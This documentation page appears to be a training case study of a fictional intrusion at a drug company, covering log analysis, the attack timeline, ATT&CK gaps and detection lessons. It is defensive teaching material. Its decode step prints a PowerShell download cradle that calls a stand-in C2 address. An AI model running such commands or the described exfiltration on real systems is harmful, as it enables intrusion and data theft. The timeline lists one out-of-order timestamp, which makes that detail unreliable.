import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# Case Study: CTI as a Code in Practice — LifeTech Pharma

> *A complete walkthrough of the methodology applied to a real training scenario: pharmaceutical IP theft, dual entry points, and a DCSync that changes everything.*

**Originally published on Medium:** [CTI as a Code in Practice: Reactive Investigation — LifeTech Pharma](https://medium.com/@1200km/cti-as-a-code-in-practice-reactive-investigation-lifetech-pharma-3e6574b7b85f)

:::note All scenario data is fictional
IPs, domains, company names, and individuals are invented for training. Steps 11–12 (sandbox and binary analysis) use a real Cobalt Strike sample (`1cf56da3…`, 48/75 VT detections) so those steps are reproducible against genuine malware. All other artifacts are synthetic.
:::

---

## What This Case Study Demonstrates

This article applies the full [CTI as a Code Methodology](/docs/cti-as-a-code-methodology) to a single incident from first alert through stakeholder deliverables. Every analytical decision is traceable to a log line, every claim is falsifiable, and the entire investigation lives in git.

It is the worked answer to [Assignment A01 — Reactive IR: LifeTech Pharma](/docs/training/01-reactive-lifetech).

**Relevant ecosystem links:**
- [Methodology reference](/docs/cti-as-a-code-methodology) — the seven-step reactive framework used throughout
- [Full technical walkthrough](/docs/reactive-walkthrough) — step-by-step commands, queries, and outputs
- [Training assignment A01](/docs/training/01-reactive-lifetech) — the student-facing brief for this scenario
- [Ecosystem overview](/docs/ecosystem) — how this case study fits into the broader CTI as a Code platform

---

## The Scenario

An Israeli mid-sized pharmaceutical company — **LifeTech Pharma** — experiences a targeted intrusion with two independent entry points.

The breach exposes **47 proprietary formula files** (~381 MB) protected under an FDA NDA. A $52 million US licensing deal is at risk of collapse.

### Dual Entry Points

| Path | Date | Target | Vector |
|---|---|---|---|
| **Path A** | Oct 22, 2024 | IT Admin (p.levi) | AiTM phishing → token replay → VPN |
| **Path B** | Nov 15, 2024 | CFO (m.cohen) | Macro-enabled Excel attachment (.xlsm) |

The CrowdStrike alert that opens the investigation is triggered by **Path B**. Path A — the actual initial access 24 days earlier — is discovered only during the evidence inventory.

---

## Step 00 — Initialize the Project Structure

Every investigation begins with the same three commands. No analysis until the folder exists.

```bash
git clone https://github.com/anpa1200/CTI_as_a_Code.git
cp -r CTI_as_a_Code/templates/reactive-case PROJ-2024-001
cd PROJ-2024-001 && git init && git add . && git commit -m "PROJ-2024-001: initialize case structure"
```

<figure>



<figcaption>The reactive case template creates a consistent, auditable folder structure before any analysis begins.</figcaption>
</figure>

<figure>



<figcaption>The full evidence tree as seen in VS Code Explorer — every log source one click away.</figcaption>
</figure>

---

## Step 0 — Intake Process

Before touching any log, fill the intake form. It captures constraints that shape every downstream decision.

<figure>



<figcaption>Completed project.yml — legal hold status, notification deadlines, and evidence retention windows documented before analysis starts.</figcaption>
</figure>

Key constraints recorded in intake:
- **Legal hold** on CFO workstation — memory dump before any remediation
- **PDPA notification deadline** — 72 hours from confirmed breach
- **Evidence retention** — 90 days minimum; chain of custody required for insurance claim

---

## Step R1.5 — Hands-On Evidence Analysis in VS Code

VS Code is the primary analysis tool. One window holds the evidence tree, formatted logs, API calls, and terminal — no context switching.

### Setup

**Install four extensions** (`Ctrl+Shift+X`):

<figure>



<figcaption>Rainbow CSV, REST Client, Hex Editor, and Prettier — the four extensions that make VS Code a complete log analysis workstation.</figcaption>
</figure>

**Key shortcuts used throughout:**

<figure>



<figcaption>Global search (Ctrl+Shift+F), file search (Ctrl+F), JSON outline (Ctrl+Shift+O), and RBQL console (F5) — four shortcuts that replace an entire toolchain.</figcaption>
</figure>

See the [full setup instructions and download links](/docs/reactive-walkthrough#step-r15-hands-on-evidence-analysis--vs-code-investigation) in the technical walkthrough.

---

### 1. CrowdStrike Alert — The Entry Point

The investigation opens with a CrowdStrike `Critical` detection on `WS-CFO-01`. Press `Shift+Alt+F` to format the JSON, then `Ctrl+Shift+O` to open the Outline panel.

<figure>



<figcaption>The Outline panel collapses 1,200 lines of JSON into a navigable tree — four detected behaviors visible at a glance: Execution, C2, Persistence, Credential Access.</figcaption>
</figure>

Click `prevention_policy` in the Outline:

<figure>



<figcaption>"prevent": false — the CFO machine is in detect-only mode. The C2 connection is live. Memory dump before anything else.</figcaption>
</figure>

:::danger Immediate action required
`"prevent": false` means the C2 beacon is still running. Collect a memory dump via CrowdStrike RTR before starting any further analysis — live memory contains decrypted C2 configuration.
:::

---

### 2. Decode the PowerShell Payload

`Ctrl+F` → `-Enc` in the formatted JSON. Copy the base64 argument, decode in the terminal:

<figure>



<figcaption>The encoded PowerShell command is visible in the behaviors[0].cmdline field — one Ctrl+F away from the raw JSON.</figcaption>
</figure>

<figure>



<figcaption>Decoded output: a WebClient downloading from the C2 IP. The payload URL, User-Agent header, and destination are all visible in plaintext.</figcaption>
</figure>

```bash
echo "JABjAD0ATg..." | base64 -d | iconv -f UTF-16LE -t UTF-8
# → $c=New-Object System.Net.WebClient;$c.Headers.Add('User-Agent','Mozilla/5.0');
#   $d=$c.DownloadString('https://203.0.113.87/update')
```

**Decode locally** — never paste encoded malware into online decoders. Encoding is a common obfuscation layer; decoding reveals the real C2 endpoint.

→ [Full decode procedure in the technical walkthrough](/docs/reactive-walkthrough#2-decode-the-powershell-payload)

---

### 3. M365 Message Trace — Rainbow CSV

Click `m365/message-trace-p.levi.csv` in Explorer. Rainbow CSV colorizes every column. Press `F5` for the RBQL console.

<figure>



<figcaption>RBQL query: WHERE DMARC == 'fail' — the phishing email to the IT admin lands in the first result row: DMARC fail, DKIM fail, SPF fail, SCL=4, delivered.</figcaption>
</figure>

Switch to `message-trace-m.cohen.csv` for the CFO mailbox:

<figure>



<figcaption>The CFO phishing delivery: .xlsm attachment, SCL=4, DMARC fail — same bypass pattern as the IT admin attack 24 days earlier. Same SCL threshold gap, different sender domain.</figcaption>
</figure>

The [ATP SCL threshold gap (INT-007)](/docs/reactive-walkthrough#3-m365-message-trace--rainbow-csv) allowed both emails to deliver. A threshold of `5` permits SCL=4 mail regardless of authentication failures.

---

### 4. Azure AD Sign-In Analysis

<figure>



<figcaption>Four sign-in entries extracted with jq. Entry [1] (aad-signin-002) immediately stands out: Istanbul, Conditional Access notApplied, MFA null — three red flags in one row.</figcaption>
</figure>

<figure>



<figcaption>The anomalous sign-in: foreign city, CA policy bypassed, no MFA challenge, unknown device OS. All consistent with token replay — MFA was satisfied when the token was originally issued.</figcaption>
</figure>

The +2h17m gap between the legitimate sign-in (07:14 IST) and the replayed token (09:31 IST) is consistent with an attacker operating from a different time zone, allowing a startup delay before exploitation.

→ [Azure AD token replay detection](/docs/reactive-walkthrough#4-azure-ad-sign-in-analysis) — full jq extraction and red-flag table

---

### 5. VPN Log Analysis

<figure>



<figcaption>Three log lines tell the full VPN story: attacker authenticates as p.levi from 185.220.101.47 (Istanbul), gets assigned 10.10.3.22 — the IT admin's own internal IP — and holds the session for 1h 12min.</figcaption>
</figure>

The internal IP assignment (`10.10.3.22`) is the key finding: all attacker activity inside the network is indistinguishable from the legitimate workstation. No per-session anomaly detection existed.

---

### 6. NGFW Log Analysis — Finding the Exfiltration

Click `palo-alto/ngfw-flows.csv`. **Start with the anomaly query — sort by bytes_sent descending:**

<figure>



<figcaption>Rainbow CSV colorizes the 41-column flow log. The LOGMAGNIFIER panel at the bottom shows the full row detail as you navigate.</figcaption>
</figure>

<figure>



<figcaption>Query 1 result — the 381 MB outlier is immediately visible: 17,000× larger than the next largest flow, 99% upload ratio, 312s duration. This is the exfiltration event.</figcaption>
</figure>

<figure>



<figcaption>Query 5 — C2 beacon sessions sorted by time. The 432–452 second intervals (~7.2 minutes) are consistent across both infected hosts — same implant configuration.</figcaption>
</figure>

<figure>



<figcaption>Query 4 — internal flows only. CFO workstation (10.10.1.45) connects to 10.10.2.20 on port 135 (DCE/RPC) then 49152 (dynamic RPC) — the WMI/DCOM lateral movement signature, 3 hours after CFO compromise.</figcaption>
</figure>

Switch to `dns-queries.csv`:

<figure>



<figcaption>Query 5 — beacon timing from both infected hosts. WS-IT-LEVI began beaconing Nov 1; WS-CFO-01 joined Nov 15. Same C2 domain, same interval. Two hosts, one operator.</figcaption>
</figure>

<figure>



<figcaption>Query 6 — all malware-category DNS entries sorted by time. The full attack timeline is visible in DNS alone: AiTM phishing (Oct 22), C2 beaconing (Nov 1), exfil domain lookup (Nov 6), CFO phishing (Nov 15).</figcaption>
</figure>

<figure>



<figcaption>Query 7 — how many hosts query the C2 domain? Two: WS-IT-LEVI (6 queries) and WS-CFO-01 (3 queries). The IT admin host was the initial foothold; the CFO is the second wave 14 days later.</figcaption>
</figure>

<figure>



<figcaption>Query 8 — external IPs in DNS logs. The attacker IP (185.220.101.47) queried vpn.lifetechpharma.com one minute before the VPN login. Confirms an active human operator, not an automated tool.</figcaption>
</figure>

→ [All 8 RBQL queries with correct JavaScript syntax](/docs/reactive-walkthrough#6-ngfw-log-analysis--rainbow-csv) — no FROM clause, parseInt() not CAST(), .startsWith() not LIKE

---

### 8. Windows Security Events — DCSync

<figure>



<figcaption>Three EID 4662 events from DC01 in 18 seconds: svc_backup replicated the full domain, then krbtgt, then Administrator. Source IP: 10.10.3.22 — a workstation, not a DC. Golden ticket capability obtained.</figcaption>
</figure>

The DCSync gap is the starkest finding: the EID 4662 audit policy was correctly configured, the event reached Splunk, and the data was queryable — but no alert rule existed. A single SPL rule would have contained this incident before the formula exfiltration.

See [Step R4 — ATT&CK Mapping](/docs/reactive-walkthrough#step-r4-attck-mapping--where-detection-failed) for the full gap taxonomy: 7 rule-missing, 3 coverage-incomplete, 1 data-source-missing.

---

### 9. Cross-File Pivot — Four Searches, Full Attack Chain

VS Code's `Ctrl+Shift+F` searches across every open file simultaneously. Four searches navigate the complete attack chain without opening a SIEM.

<figure>



<figcaption>Ctrl+Shift+F → 198.51.100.44: four hits across four files — NGFW flow (381 MB), DNS lookup (sys-update-cdn.net resolved), SQL audit (WebClient.UploadFile command), Windows Security EID 5156 (PowerShell connection). One IP, full exfil chain.</figcaption>
</figure>

<figure>



<figcaption>Ctrl+Shift+F → svc_backup: appears in DC01-security (DCSync ×3), SERVER-RD-02-security (SMB logon + file access + exfil connection), and sql-audit (full xp_cmdshell chain). One account, full lateral movement path.</figcaption>
</figure>

<figure>



<figcaption>Ctrl+Shift+F → telemetry-cdn-services.biz: 11 DNS queries across two infected hosts. The domain appears only in dns-queries.csv — not in the VPN log, despite being active during the VPN session.</figcaption>
</figure>

<figure>



<figcaption>Ctrl+Shift+F → 185.220.101.47: ties together three evidence sources — Azure AD suspicious sign-in, VPN authentication, and the pre-login VPN hostname recon in DNS. One IP, initial access chain complete.</figcaption>
</figure>

| Search term | Attack phase | Evidence sources |
|---|---|---|
| `185.220.101.47` | Initial access: AiTM, VPN, recon | azure-ad, vpn, dns-queries |
| `telemetry-cdn-services.biz` | Persistence: C2 beaconing | dns-queries (2 hosts) |
| `svc_backup` | Lateral movement + DCSync | DC01-security, SERVER-RD-02-security, sql-audit |
| `198.51.100.44` | Exfiltration | ngfw-flows, dns-queries, sql-audit, SERVER-RD-02-security |

---

## Attack Chain Summary

<figure>



<figcaption>Four IOCs map the complete attack chain: initial access through credential theft, persistence via C2, lateral movement via a compromised service account, and data exfiltration to a dedicated upload endpoint.</figcaption>
</figure>

### Full Timeline

| Date | Event | Evidence |
|---|---|---|
| Oct 18 | `mfa-lifetechpharma.com` registered | RDAP (4 days pre-phishing) |
| Oct 22 11:23 | AiTM phishing email to p.levi (SCL=4, delivered) | M365 ATP |
| Oct 22 09:31 | IT admin visits phishing page; token stolen | Azure AD, DNS |
| Oct 22 09:31 | **GAP-001 begins** — Sysmon stops on WS-IT-LEVI | GAP-001 document |
| Oct 24 00:17 | VPN login from Istanbul as p.levi (token replay) | VPN log, Azure AD |
| Nov 1 07:14 | **GAP-001 ends** — first C2 beacon to telemetry-cdn-services.biz | DNS, NGFW |
| Nov 6 00:09 | svc_backup lateral movement to SERVER-RD-02 | Windows Security |
| Nov 6 00:13 | xp_cmdshell chain: stage → exfil → cleanup | SQL audit |
| Nov 6 00:14 | **381 MB** formula files uploaded to 198.51.100.44 | NGFW, EID 5156 |
| Nov 6 00:48 | DCSync: domain, krbtgt, Administrator | DC01 EID 4662 |
| Nov 15 15:58 | CFO phishing delivery (.xlsm, SCL=4) | M365 ATP |
| Nov 15 16:42 | CrowdStrike alert fires — CFO C2 beacon detected | CrowdStrike |

---

## ATT&CK Coverage

12 techniques mapped. The [full ATT&CK Navigator layer](/img/lifetech/) is available for import.

<figure>



<figcaption>Coverage gap breakdown: 7 rule-missing (data in SIEM, no alert), 3 coverage-incomplete (partial/mis-tuned), 1 data-source-missing (WMI logging not forwarded).</figcaption>
</figure>

| Technique | Gap type | What was missing |
|---|---|---|
| T1566.001 Phishing attachment | Coverage incomplete | ATP SCL threshold at 5 instead of 3 |
| T1557 AiTM credential theft | Rule missing | No impossible-travel / token-replay alert |
| T1133 VPN with stolen credentials | Rule missing | No anomalous VPN geolocation alert |
| T1078.002 Valid account abuse | Rule missing | No service account off-hours logon alert |
| T1059.001 Encoded PowerShell | Coverage incomplete | IT admin host had Sysmon gap; CFO only detected |
| T1003.001 LSASS memory access | Rule missing | Sysmon EID 10 not alerted on |
| **T1003.006 DCSync** | **Rule missing** | **EID 4662 in SIEM — no alert rule deployed** |
| T1021.003 DCOM lateral movement | Rule missing | WmiPrvSE parent-child alert not deployed |
| T1197 BITS download | Rule missing | BITS external download not monitored |
| T1047 WMI execution | Data source missing | WMI logs not forwarded to SIEM |
| T1070.001 Event log cleared | Rule missing | wevtutil / EID 1102 alert not deployed |
| T1547.001 Registry Run Key | Coverage incomplete | EID 13 in SIEM, no alert on AppData paths |

The DCSync gap is the most consequential: **the audit policy was correct, the data was in Splunk, but no alert rule existed**. A single detection rule on EID 4662 from a non-DC IP would have fired 34 minutes before the formula exfiltration completed.

→ [Step R6 — Detection Rules](/docs/reactive-walkthrough#step-r6-detection-rules--four-that-would-have-changed-the-outcome) — the four Sigma rules that change the outcome

---

## Key Lessons

<figure>



<figcaption>Evidence discipline: every claim in the claims ledger carries one of five labels — CONFIRMED, CORROBORATED, INFERRED, HYPOTHESIZED, or GAP. No unlabelled assertions.</figcaption>
</figure>

<figure>



<figcaption>Gap taxonomy drives remediation effort: Rule missing → sprint item. Coverage incomplete → tuning sprint. Data source missing → infrastructure project. Architectural gap → strategic initiative.</figcaption>
</figure>

**1. Evidence inventory precedes analysis.** Discovering that firewall logs have a 14-day retention window before starting the investigation determines which questions can be answered and which cannot.

**2. Gaps are findings.** The 10-day Sysmon absence on WS-IT-LEVI (GAP-001) is more suspicious than any log it would have contained. The timing — starting the moment the phishing email was opened — is itself evidence of anti-forensics (T1562.001).

**3. The alert is never the beginning.** The CrowdStrike detection on November 15 was triggered by the *second* infection. The *first* compromise happened 24 days earlier via a completely different person. Always run the evidence inventory before accepting the alert timestamp as T0.

**4. Competing hypotheses must be addressed explicitly.** "svc_backup file access could be a legitimate backup job" is ruled out with a specific reason: backup jobs run from SERVER-WSUS-01 (10.10.4.x), not WS-IT-LEVI; and the timestamp is outside the maintenance window. Not assumed away — falsified.

**5. Version control enables compliance.** The git commit hash proves what evidence existed when analysis began. This is the chain of custody for the investigation itself.

---

## Confidence Assessment

<figure>



<figcaption>Attribution confidence: Medium-High. TTP overlap and infrastructure match present. Independent CERT-IL deconfliction not performed — prevents elevation to High.</figcaption>
</figure>

**Attribution:** Single threat actor, dual delivery mechanism. Shared PE compile timestamp (`2018-04-09`) and shared secondary C2 domain (`sys-update-cdn.net`) across both implants are inconsistent with two independent actors. Tradecraft (AiTM + DCSync + pharmaceutical IP staging) is consistent with Iranian-nexus industrial espionage. Named cluster attribution is not warranted without CERT-IL deconfliction.

---

## Continue Learning

| Next step | Link |
|---|---|
| Run this investigation yourself | [Assignment A01](/docs/training/01-reactive-lifetech) |
| Step-by-step technical commands | [Reactive Walkthrough](/docs/reactive-walkthrough) |
| The methodology behind the steps | [CTI as a Code Methodology](/docs/cti-as-a-code-methodology) |
| Detection rules from this case | [Step R6 — Sigma Rules](/docs/reactive-walkthrough#step-r6-detection-rules--four-that-would-have-changed-the-outcome) |
| ATT&CK Navigator layer | [Download JSON](/investigations/lifetech-2024-11/03-analysis/attck-mapping/attck-navigator-layer.json) |
| Related ecosystem tools | [Ecosystem Overview](/docs/ecosystem) |
| CTI Analyst Field Manual | [Evidence discipline and analytic standards](https://anpa1200.github.io/cti-analyst-field-manual/) |
